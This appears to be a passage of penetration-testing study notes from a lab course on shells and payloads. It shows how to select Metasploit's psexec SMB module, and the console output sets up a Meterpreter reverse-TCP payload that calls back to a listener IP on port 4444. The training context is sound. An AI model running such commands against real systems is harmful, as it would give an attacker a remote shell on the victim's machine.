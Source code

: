 
We will see a long list of `Matching Modules` associated with our search. Notice the format each module is in. Each module has a number listed on the far left of the table to make selecting the module easier, a `Name`, `Disclosure Date`, `Rank`, `Check` and `Description`.

Let's look at one module, in particular, to understand it within the context of payloads.

`56 exploit/windows/smb/psexec`

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%201/Medium/Shells%20%2526%20Payloads/Images/exploit_56.png)

```shell
msf6 > use 56

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > 
```

Let's learn more about using this exploit and delivering the payload by using the `options` command.

```shell
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write fo
                                                    lder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

